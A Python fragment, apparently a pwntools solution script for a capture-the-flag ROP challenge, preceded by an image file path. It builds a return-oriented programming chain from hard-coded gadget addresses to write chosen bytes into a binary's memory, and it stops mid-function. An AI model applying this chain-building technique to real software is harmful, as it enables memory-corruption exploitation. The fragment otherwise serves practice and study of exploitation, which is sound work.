 ```Python

# 0040069a: pop rbx; pop rbp; pop r12; pop r13; pop r14; pop r15; ret;
pop_rbx_size = 0
rdx_set = False
# unpacker_64 = make_unpacker(64)
def pop_rbx(rbx):
	global unpacker_64
	global rdx_set
	if not rdx_set:
		returnPayload = p64(0x40062a)
		#rdx val, control for bextr
		# should start at bit 0 and then copy 64 bit
		returnPayload += p64(0xff00)
		rdx_set = True
	else:
		returnPayload = p64(0x40062a + 1)
	# rcx val
	# this will get placed into rbx after + 0x3ef2
	returnPayload += p64( (rbx) - 0x3ef2)
	global pop_rbx_size
	pop_rbx_size += len(returnPayload)
	return returnPayload



xlatb_gaget	    = p64(0x0400628)
# 0400610: mov eax, 0; pop rbp; ret;
null_eax_gaget	    = p64(0x0400610)
def write_al(location):
	returnPayload  = null_eax_gaget
	returnPayload += new_bp
	returnPayload += pop_rbx(location)
	returnPayload += xlatb_gaget

	return returnPayload

elf = ELF(target)
def find_byte(c):
	return next(elf.search(c))


pop_rdi_gaget = p64(0x04006a3)
def pop_rdi(val):
	returnPayload = pop_rdi_gaget
	returnPayload += p64(val)
	return returnPayload


# stosb byte ptr [rdi], al; ret;
stosb_gaget = p64(0x0400639)


rdi_set = False

def write_byte(dest, c):
	byte_loc = find_byte(c)
	
	# place the value in byte_loc into al
	returnPayload  = write_al(byte_loc)
	global rdi_set
	if not rdi_set:
		returnPayload += pop_rdi(dest)
		rdi_set = True
```